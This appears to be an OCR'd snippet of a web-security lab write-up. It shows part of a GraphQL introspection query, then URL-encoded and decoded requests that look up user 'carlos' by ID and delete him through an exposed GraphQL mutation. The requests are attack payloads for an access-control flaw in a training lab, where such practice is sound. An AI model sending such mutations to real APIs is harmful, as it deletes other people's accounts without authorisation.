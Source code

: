 ```
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

* Steps to delete the user carlos:

	* Confirm what ID is in scope for the user carlos


* Query to confirm user carlos:


```
/api?query=%71%75%65%72%79%20%67%65%74%55%73%65%72%28%24%69%64%3a%20%49%6e%74%21%29%20%7b%0a%20%20%20%20%20%20%20%20%67%65%74%55%73%65%72%28%69%64%3a%20%24%69%64%29%20%7b%0a%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%75%73%65%72%6e%61%6d%65%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%7d&variables={"id"%3a3}
```

* Query decoded: (Note the parameter "variables" needs to be included)

```
/api?query=query getUser($id: Int!) {
        getUser(id: $id) {
        id
        username
        }
    }&variables={"id":3}
```

* Query to delete user carlos:

```
/api?query=mutation%28%24input%3a+DeleteOrganizationUserInput%29+%7b%0a++deleteOrganizationUser%28input%3a+%24input%29+%7b%0a++++user+%7b%0a++++++id%0a++++++username%0a++++%7d%0a++%7d%0a%7d&variables=%7b%22input%22%3a%7b%22id%22%3a3%7d%7d
```
